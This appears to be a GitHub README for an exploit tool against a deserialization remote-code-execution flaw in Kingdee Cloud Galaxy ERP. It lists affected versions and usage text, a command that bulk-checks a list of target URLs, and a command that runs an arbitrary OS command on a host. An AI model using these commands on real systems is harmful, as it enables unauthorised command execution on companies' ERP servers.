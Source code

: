 ## 金蝶云星空 Kingdee-RCE

由于金蝶云星空数据通信默认采用的是二进制数据格式，需要进行序列化与反序列化，在此过程中未对数据进行签名或校验，导致客户端发出的数据可被攻击者恶意篡改，写入包含恶意代码的序列化数据，达到在服务端远程命令执行的效果。该漏洞不仅存在于金蝶云星空管理中心（默认8000端口），普通应用（默认80端口）也存在类似问题。

影响范围：

6.x版本：低于6.2.1012.4

7.x版本：7.0.352.16 至 7.7.0.202111

8.x版本：8.0.0.202205 至 8.1.0.20221110

```
usage: Kingdee-RCE.py [-h] [-u URL] [--check] [-f FILE] [-t THREAD] [-T TIMEOUT] [-o OUTPUT] [-p PROXY] [--cmd CMD]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target url(e.g. url.txt)
  --check               Check if vulnerable
  -f FILE, --file FILE  Target file(e.g. url.txt)
  -t THREAD, --thread THREAD
                        Number of thread (default 5)
  -T TIMEOUT, --timeout TIMEOUT
                        Request timeout (default 3)
  -o OUTPUT, --output OUTPUT
                        Vuln url output file (e.g. result.txt)
  -p PROXY, --proxy PROXY
                        Request Proxy (e.g http://127.0.0.1:8080)
```

### poc

```
python .\Kingdee-RCE.py -f .\url.txt --check -t 10
```

![](https://raw.githubusercontent.com/Sweelg/-Kingdee-erp-Unserialize-RCE/master/img/1.png)

### exp

```
python .\Kingdee-RCE.py -u http://host --cmd 'dir'
```

![](https://raw.githubusercontent.com/Sweelg/-Kingdee-erp-Unserialize-RCE/master/img/2.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，**均由使用者本人负责，作者不为此承担任何责任**。